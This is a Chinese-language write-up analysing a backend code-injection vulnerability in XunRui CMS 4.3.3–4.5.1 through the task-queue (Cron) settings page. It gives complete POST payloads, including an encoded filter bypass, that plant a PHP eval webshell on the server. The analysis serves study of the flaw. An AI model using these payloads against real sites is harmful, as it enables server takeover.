 # 迅睿CMS V4.3.3-V4.5.1 后台任意注入漏洞

- [迅睿CMS V4.3.3-V4.5.1 后台任意注入漏洞](#迅睿cms-v433-v451-后台任意注入漏洞)
  - [漏洞要求](#漏洞要求)
  - [漏洞分析](#漏洞分析)
  - [漏洞测试](#漏洞测试)
  - [小结](#小结)
  - [相关链接](#相关链接)

为了避免后续复现漏洞时没有源代码，故将20220707当天的master 代码克隆到当前目录下
本文章使用的是 `version 4.3.10 栏目数量最多限制为100个` 即 commit 为 `89b9497bf7fd89e468f7858b457a3e6e499bc44a` 的代码进行的漏洞复现和分析。

## 漏洞要求

- 版本为v4.3.3-v4.5.1
- 可以登陆后台并具有"应用"->"任务队列"的管理权限，`/admin.php?c=Cron&m=add`

## 漏洞分析

访问`admin.php?c=Cron&m=add`, 不用填写，点击保存，看网站目录下 `cache/config/cron.php` 内容如下：

```php
<?php defined('FCPATH') OR exit('No direct script access allowed');
 $json='{"1":{"name":"","code":""},"2":{"name":"","code":""},"3":{"name":"","code":""},"4":{"name":"","code":""},"5":{"name":"","code":""},"6":{"name":"","code":""},"7":{"name":"","code":""},"8":{"name":"","code":""},"9":{"name":"","code":""},"10":{"name":"","code":""},"11":{"name":"","code":""},"12":{"name":"","code":""},"13":{"name":"","code":""},"14":{"name":"","code":""},"15":{"name":"","code":""},"16":{"name":"","code":""},"17":{"name":"","code":""},"18":{"name":"","code":""},"19":{"name":"","code":""},"20":{"name":"","code":""}}';
```

从这里可以分析出，如果这个地方对于用户输入的内容过滤不严格，就非常容易存在漏洞

我们来分析一下 `cron.php` 中的`add` 方法：

```php
    // 任务类型
    public function add() {

        $json = '';
        if (is_file(WRITEPATH.'config/cron.php')) {
            require WRITEPATH.'config/cron.php';
        }

        $data = json_decode($json, true);

        if (IS_AJAX_POST) {

            $post = \Phpcmf\Service::L('input')->post('data', true);

            file_put_contents(WRITEPATH.'config/cron.php',
                '<?php defined(\'FCPATH\') OR exit(\'No direct script access allowed\');'.PHP_EOL.' $json=\''.json_encode($post).'\';');

            \Phpcmf\Service::L('input')->system_log('设置自定义任务类型');

            $this->_json(1, dr_lang('操作成功'));
        }

        \Phpcmf\Service::V()->assign([
            'data' => $data,
        ]);
        \Phpcmf\Service::V()->display('cron_add.html');
    }
```

从源码中可以看到有一个非常容易存在问题的地方

```php
if (is_file(WRITEPATH.'config/cron.php')) {
    require WRITEPATH.'config/cron.php';
}
```

如上面最开始所说的，如果对于用户输入的内容过滤不严格，导致可以写入任意内容，这段代码又通过 `require WRITEPATH.'config/cron.php';` 加载执行，那么就可以造成非常严重的漏洞

继续分析代码

```php
if (IS_AJAX_POST) {

    $post = \Phpcmf\Service::L('input')->post('data', true);

    file_put_contents(WRITEPATH.'config/cron.php',
        '<?php defined(\'FCPATH\') OR exit(\'No direct script access allowed\');'.PHP_EOL.' $json=\''.json_encode($post).'\';');

    \Phpcmf\Service::L('input')->system_log('设置自定义任务类型');

    $this->_json(1, dr_lang('操作成功'));
}
```

在上面这段代码中`file_put_contents` 函数会进行文件写入，不过问题也出在了这个地方，代码中的`$json=\''.json_encode($post).'\';');` `$json` 的值 是字符串的拼接，在内容的前后拼接了一个`'`，如果我们控制了这个值并且闭合前后的`'`,加入我们想要执行的代码，那么就造成了非常严重的漏洞。所以接下来我们需要顺着这个`json_encode($post)`往上找，看看看对于这个值是否可以进行控制。

分析`cron.php` 中的`add` 中 `post` 请求时数据的处理流程：

- `dayrui/Core/Controllers/Admin/Cron.php` 文件中 add 方法中调用 `$post = \Phpcmf\Service::L('input')->post('data', true);`
- 经过 `dayrui/Fcms/Library/Input.php` 文件中 `post` 方法又调用 `xss_clean`方法，并最终调用 `dayrui/Fcms/Library/Security.php` 中的 `xss_clean` 方法对`post`请求中的数据进行`xss`清理
- `dayrui/Core/Controllers/Admin/Cron.php` 文件中 add 方法中执行 `file_put_contents(WRITEPATH.'config/cron.php','<?php defined(\'FCPATH\') OR exit(\'No direct script access allowed\');'.PHP_EOL.' $json=\''.json_encode($post).'\';');` 将 post 数据 `json_encode` 并写入 `config/cron.php` 文件

## 漏洞测试

我们尝试直接在`admin.php?c=Cron&m=add` 的post请求中直接加入如下数据

```url
data[1][name]=&data[1][code]=[';file_put_contents('webshell.php','<?php eval(@$_POST["password"]);?>);return;']
// 完整的post 数据
is_form=1&is_admin=1&is_tips=&csrf_test_name=06b5fd7088e5c1036c2f522d34b19c47&data%5B1%5D%5Bname%5D=&data%5B1%5D%5Bcode%5D=%5B'%3bfile_put_contents('webshell.php','<%3fphp+eval(%40$_POST["password"])%3b%3f>)%3breturn%3b'%5D
```

这个是构造的data 数据，可以通过如下方式调试一下代码，方便看我们的调试结果：

```php
if (IS_AJAX_POST) {

    $post = \Phpcmf\Service::L('input')->post('data', true);
    // -----添加的调试代码-----
    var_dump(json_encode($post));
    exit();
    // -----添加的调试代码-----
    file_put_contents(WRITEPATH.'config/cron.php',
        '<?php defined(\'FCPATH\') OR exit(\'No direct script access allowed\');'.PHP_EOL.' $json=\''.json_encode($post).'\';');

    \Phpcmf\Service::L('input')->system_log('设置自定义任务类型');

    $this->_json(1, dr_lang('操作成功'));
}
```

测试我们上面的请求，可以看到如下结果：

```php
string(125) "{"1":{"name":"","code":"[';file_put_contents('webshell.php','&lt;?php eval&#40;@$_POST[\"password\"]&#41;;?&gt;);return;']"}}"
```

可以看到输入的内容被进行了编码:

- `<`被编码为 `&lt;`
- `>`被编码为 `&gt;`
- eval的`(`被编码为 `&#40;`
- eval的`)`被编码为 `&#41;`
- `"` 被进行了转义`\"`

接下来我们需要想办法绕过上面的转换

- 关于`>`和 `<` 的编码可以看出来是被进行的html编码，这个可以通过使用`htmlspecialchars_decode`来解决
- 关于`(`,`)`被编码以及`"`被转义可以通过 `base64_decode` 编码的方式进行绕过

这样将我们构造的post 的数据进行调整为：

```url
data[1][name]=&data[1][code]=[';file_put_contents('webshell.php',htmlspecialchars_decode('<').'?php%20eval'.base64_decode('KA==').'@$_POST%5B'.base64_decode('Ig==').'password'.base64_decode('Ig==').'%5D'.base64_decode('KQ==').';?'.htmlspecialchars_decode('>'));return;']
// 完整请求参数
is_form=1&is_admin=1&is_tips=&csrf_test_name=398242eb0f467c80b539d08baf47eb29&data%5B1%5D%5Bname%5D=&data%5B1%5D%5Bcode%5D=%5B'%3bfile_put_contents('webshell.php',htmlspecialchars_decode('<').'%3fphp%2520eval'.base64_decode('KA%3d%3d').'%40$_POST%255B'.base64_decode('Ig%3d%3d').'password'.base64_decode('Ig%3d%3d').'%255D'.base64_decode('KQ%3d%3d').'%3b%3f'.htmlspecialchars_decode('>'))%3breturn%3b'%5D
```

调试的结果为：

```php
string(265) "{"1":{"name":"","code":"[';file_put_contents('webshell.php',htmlspecialchars_decode('&lt;').'?php eval'.base64_decode('KA==').'@$_POST['.base64_decode('Ig==').'password'.base64_decode('Ig==').']'.base64_decode('KQ==').';?'.htmlspecialchars_decode('>'));return;']"}}"
```

我们上面添加的调试代码去掉，然后看看最终写入到`cache/config/cron.php` 内容如下：

```php
<?php defined('FCPATH') OR exit('No direct script access allowed');
 $json='{"1":{"name":"","code":"[';file_put_contents('webshell.php',htmlspecialchars_decode('&lt;').'?php eval'.base64_decode('KA==').'@$_POST['.base64_decode('Ig==').'password'.base64_decode('Ig==').']'.base64_decode('KQ==').';?'.htmlspecialchars_decode('>'));return;']"}}';
```

然后访问 `/admin.php?c=Cron&m=add` 这个时候就会在网站根目录下看到写入了一个webshell.php 文件，内容为：`<?php eval(@$_POST["password"]);?>`

需要注意的是我们构造的数据前后都有 `';` 这个就是为了闭合下面代码中的 `json_encode($post)` 前后的拼接的`'`

```php
 file_put_contents(WRITEPATH.'config/cron.php',
        '<?php defined(\'FCPATH\') OR exit(\'No direct script access allowed\');'.PHP_EOL.' $json=\''.json_encode($post).'\';');
```

## 小结

作为一个在学习完漏洞原理之后，把这个作为入门分析代码的例子还是非常不错的，过程也还比较有意思

## 相关链接

- <https://xz.aliyun.com/t/11457>
- <https://gitee.com/dayrui/xunruicms>
